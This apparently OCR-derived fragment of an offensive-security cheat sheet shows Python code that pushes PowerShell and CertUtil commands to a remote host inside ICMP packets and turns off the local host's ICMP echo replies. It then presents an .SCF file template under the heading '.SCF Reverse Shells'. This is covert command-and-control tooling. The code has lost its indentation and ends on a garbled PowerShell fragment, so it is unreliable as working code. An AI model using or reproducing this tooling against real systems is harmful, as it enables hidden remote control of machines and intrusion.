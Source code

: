 ```python
cmd = "get-filehash -algorithm md5 '"+remote_path+"' | fl; $(CertUtil -hashfile '"+remote_path+"' MD5)[1] -replace ' ',''"

icmp.set_icmp_id(ident)

icmp.set_icmp_seq(seq_id)

if cmd and cmd[:8] != UID:

cmd = UID+cmd

icmp.contains(ImpactPacket.Data(cmd))

icmp.set_icmp_cksum(0)

icmp.auto_checksum = 1

ip.contains(icmp)

sock.sendto(ip.get_packet(), (dst, 0))

# Set /proc/sys/net/ipv4/icmp_echo_ignore_all = 1

with open("/proc/sys/net/ipv4/icmp_echo_ignore_all", 'wt') as f:

f.write("1")

try:

th1 = threading.Thread(target=send_payload, args = (INITIAL_UID,))

th1.daemon = True

th1.start()

sys.exit(main(LHOST, RHOST, INITIAL_UID))

except (KeyboardInterrupt, SystemExit):

th1.join()

except Exception as e:

print(str(e))
```

#### .SCF Reverse Shells

SCF files are Windows Shell Command files that can be used to create references to icon files.

```
[Shell] 
Command=2 
IconFile=<icon file> 
[<what you want to control>] 
Command=<command>
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"